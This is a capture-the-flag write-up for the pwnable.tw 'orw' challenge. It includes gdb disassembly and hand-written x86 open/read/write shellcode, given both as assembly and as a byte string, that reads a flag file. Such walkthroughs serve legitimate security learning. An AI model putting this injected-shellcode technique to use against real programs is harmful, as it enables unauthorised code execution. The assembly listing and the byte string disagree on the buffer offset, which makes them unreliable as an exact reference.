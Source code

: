 ```yaml
---
layout: single_c
title:  "Pwnable.tw Level 2 - Orw"
date:   2019-08-14 1:00:16 +0530
categories: Pwnable.tw
tags: ctf
classes: wide
--- 
```

### [Pwnable.tw Level 2 - Orw](https://pwnable.tw/challenge/#2)  

## Challenge
```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```
## Static Analysis
Lets check the file properties using `file` and `checksec`
```bash
user@ctf:~/Downloads$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,  
for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

user@ctf:~/Downloads$ ./checksec.sh --file orw
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   orw
```
Let decompile using `gdb`
```bash
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini
```
Lets look at main function
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
End of assembler dump.
```

At position `0x08048576` the value `0x804a060` is pushed into the `stack` and then value read from the user is stored at this location and then it is called.

lets set a break point and check 
```bash
gdb-peda$ break *0x0804858a
Breakpoint 1, 0x0804858a in main ()
gdb-peda$ x/2i $eip
=> 0x804858a <main+66>:	call   eax
   0x804858c <main+68>:	mov    eax,0x0
gdb-peda$ print $eax
$1 = 0x804a060
gdb-peda$ x/s $eax
0x804a060 <shellcode>:	"AAAABBBB\n" 
```
So it executes any shellcode we input. So we can simply write any shell code.
Its seems to be too easy and I don't see any limits to the length of shell code either  
My first thought was to pop a shell. But syscalls seems to be limited to `open` `read` and `write`
After trying various unnecessarily complicated shellcodes I got a simple idea  
We can just `open` the flag file then `read` from it and then `write` its contents to standard output  

I used this website for writing the shell code https://defuse.ca/online-x86-assembler.htm

Shell code
```bash
mov eax,5
push 0
push 0x67616c66
push 0x2f2f2f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80;; fd = open("/home/orw/flag", 0_RDONLY, 0)

push eax
pop ebx
mov eax,3
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; read(fd, obj.shellcode-40, 40)

mov eax,4
mov ebx,1
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; write(stdout, obj.shellcode-40, 40)


String Literal:

"\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3  
\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00  
\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00\xCD\x80"  

```
The shellcode is the simplest one I could think of. Its not the most efficient or shortest method but it will work    
The shellcode first `opens` the file `/home/orw/flag`  
Then it `reads` from the file using the file `descriptor` returned form `open` to a `40bytes` buffer above shell code  
Then we `write` the output to standard output

